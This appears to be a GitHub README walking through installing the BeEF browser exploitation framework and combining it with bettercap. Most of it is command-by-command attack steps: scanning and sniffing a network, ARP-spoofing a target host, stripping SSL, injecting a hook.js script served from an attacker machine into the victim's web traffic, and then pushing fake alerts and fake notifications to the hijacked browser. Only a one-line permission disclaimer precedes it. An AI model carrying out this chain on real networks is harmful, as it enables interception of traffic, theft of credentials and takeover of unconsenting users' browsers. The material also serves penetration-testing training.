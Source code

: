 ### BEEF XSS FRAMEWORK

BeEF is short for the Browser Exploitation Framework.

### Disclaimer

Before using, make sure you have permission


### Installation 

apt install beef-xss -y

Run as a root User 

update the default username and password after installation

 Please wait for the BeEF service to start. It will open a browser session on your localhost enter username:beef password:`your-new-password`
 
 ```
Web UI: http://127.0.0.1:3000/ui/panel
 
 ```
 
 Always refresh after new tab is opened
 
 
### COMBINING WITH BETTERCAP

```
sudo bettercap -iface eth0
```

Interface can be either eth0 / wlan0

We need to enable this services :

net.recon  - Scan our network for targets

```
net.recon on
```

net.probe  - Probe devices to gather more info

```
net.probe on
```

net.sniff  - Capture Neetwork Traffic 

```
net.sniff on
```

net.show - Show Devices connected to the network

```
net.show
```
set apr.spoof.targets 192.168.1.2 - Set Target to spoof

arp.spoof on - activate the module to start capture

help http.proxy - Understand its capabilities

set http.proxy.sslstrip true - 

set http.proxy.injectjs http://192.168.5.103:3000/hook.js - Connect with BEEF app

http.proxy on - Activate proxy

visit vulnweb.com on your target


In Beef select the new device, go to commands Browser/ Alert Dialog to create an alert then send a message, write then click execute. It will show on target machine browser

Go to Social Eng tab select fake nofification then write a message the execute, it will show on target machine





